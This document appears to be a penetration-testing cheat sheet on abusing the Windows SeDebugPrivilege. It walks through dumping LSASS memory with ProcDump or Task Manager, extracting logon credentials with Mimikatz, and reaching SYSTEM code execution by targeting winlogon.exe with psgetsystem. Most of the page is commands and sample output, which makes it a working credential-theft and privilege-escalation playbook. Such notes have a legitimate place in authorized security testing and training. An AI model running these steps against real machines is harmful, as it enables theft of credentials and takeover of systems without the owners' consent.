 # SeDebugPrivilege - Dump hashes

Use To run a particular application or service or assist with troubleshooting with administrator privilege without Administrator user

> **Admins take this privilege by default**

### Severity:

* used to capture sensitive information from system memory
* access/modify kernel and application structures

***

## Exploit SeDebugPrivilege

### Debug programs right

```powershell
C:\irix> **whoami /priv**

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
**SeDebugPrivilege**                          Debug programs                                                     Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set   
```

> **default this privilege is disabled but `ProcDump` can use it if disabled**

### Dump memory - **`ProcDump`**

dump hashes from LSASS

```powershell
C:\irix> **procdump.exe -accepteula -ma lsass.exe lsass.dmp**

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
[15:25:46] Dump count reached.
```

### Access Hashed - **`Mimikatz`**

```powershell
mimikatz # **log**
Using 'mimikatz.log' for logfile : OK

mimikatz # **sekurlsa::minidump lsass.dmp**
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # **sekurlsa::logonpasswords**
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 0 ; 23196355 (00000000:0161f2c3)
Session           : Interactive from 4
User Name         : DWM-4
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/31/2021 3:00:57 PM
SID               : S-1-5-90-0-4
        msv :
        tspkg :
        wdigest :
         * Username : WINLPE-SRV01$
         * Domain   : WORKGROUP
```

***

### Dump Memory - Manual

**open task manger → Details → lsass process → create dump file**

![image.png](../../../../.gitbook/assets/image.png)

***

## **Remote Code Execution as SYSTEM**

[https://github.com/decoder-it/psgetsystem.git](https://github.com/decoder-it/psgetsystem.git)

First, open an elevated PowerShell console (right-click, run as admin, and type in the credentials for the `jordan` user). Next, type `tasklist` to get a listing of running processes and accompanying PIDs.

```powershell
PS C:\irix> **tasklist** 

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          4 K
System                           4 Services                   0        116 K
smss.exe                       340 Services                   0      1,212 K
csrss.exe                      444 Services                   0      4,696 K
wininit.exe                    548 Services                   0      5,240 K
csrss.exe                      556 Console                    1      5,972 K
winlogon.exe                   612 Console                    1     10,408 K
```

Here we can target `winlogon.exe` running under PID 612, which we know runs as SYSTEM on Windows hosts.

<figure><img src="../../../../.gitbook/assets/image 1.png" alt=""><figcaption></figcaption></figure>
